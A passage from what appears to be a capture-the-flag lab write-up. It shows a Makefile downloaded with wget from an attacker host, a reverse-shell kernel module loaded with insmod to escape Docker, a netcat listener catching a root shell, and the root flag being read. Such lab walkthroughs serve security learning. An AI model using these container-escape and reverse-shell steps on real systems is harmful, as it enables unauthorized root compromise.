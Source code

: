 ```zsh
wget 10.10.14.5/Makefile
connected.
HTTP request sent, awaiting response... --2023-09-09 17:13:30--  http://10.10.14.5/Makefile
Connecting to 10.10.14.5:80... 200 OK
Length: 148 [application/octet-stream]
Saving to: ‘Makefile’

     0K                                                       100% 18.1M=0s

2023-09-09 17:13:30 (18.1 MB/s) - ‘Makefile’ saved [148/148]
```

After building the files with `make`, we run:

```zsh
insmod reverse-shell.ko
```

# Root

And there we go—we’re out of Docker and we’re root!

```zsh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.238] 38630
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
```

We then retrieve the final flag:

```zsh
root@monitors:/# cat /root/root.txt
cat /root/root.txt
db03..9500
```
